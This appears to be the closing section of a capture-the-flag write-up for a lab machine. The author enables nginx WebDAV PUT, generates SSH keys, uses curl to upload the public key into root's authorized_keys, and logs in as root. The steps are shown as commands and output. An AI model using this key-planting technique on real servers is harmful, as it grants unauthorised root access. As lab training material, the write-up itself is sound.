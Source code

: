 that was a fun machine and i was able to do it entirely on my own. i had some issues with the metasploit module, which i was able to fix after some investigation. getting full admin access to the machine, not only read-access to the file system would be nice. i'll look into the official writeup for this. but the flags where successfully obtained, so i'll count this as a win!

## aftermath

okay, so getting full access was easier than i thought, but required a bit more knowledge about nginx. it turns out that there is a module `ngx_http_dav_module` (https://nginx.org/en/docs/http/ngx_http_dav_module.html). adding the line `dav_methods PUT` to our config file enables the WebDAV capabilities for the PUT method, and we can use this to upload files to the server. the plan to create a set of ssh keys locally and then upload the public key as the root users `authorized_keys`.

```
┌──(kali㉿kali)-[~/.ssh]
└─$ ssh-keygen
Generating public/private rsa key pair.
Enter file in which to save the key (/home/kali/.ssh/id_rsa): /home/kali/.ssh/root
Enter passphrase (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in /home/kali/.ssh/root
Your public key has been saved in /home/kali/.ssh/root.pub
The key fingerprint is:
SHA256:IcXWV1/qgg0Dzz43P1m4Hq43oX6SmCRJGX/sSYoQ+pk kali@kali
The key's randomart image is:
+---[RSA 3072]----+
|       .o.   .. .|
|      ..++. .  o.|
|     ..o.+=o  . .|
|    . ..oo.=+. . |
|     . =So+==.o .|
|      E + ooo+.+ |
|         o o o*. |
|          o +o+o |
|           .o=o. |
+----[SHA256]-----+
                                                                                                                  
┌──(kali㉿kali)-[~/.ssh]
└─$ curl -X PUT http://10.10.11.243:4711/root/.ssh/authorized_keys -d "$(cat root.pub)"
                                                                                                                  
┌──(kali㉿kali)-[~/.ssh]
└─$ ssh -i root root@10.10.11.243
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-88-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Wed Jan  3 10:08:29 AM UTC 2024

  System load:           0.0
  Usage of /:            73.2% of 4.63GB
  Memory usage:          15%
  Swap usage:            0%
  Processes:             165
  Users logged in:       1
  IPv4 address for eth0: 10.10.11.243
  IPv6 address for eth0: dead:beef::250:56ff:feb9:ca3


Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

```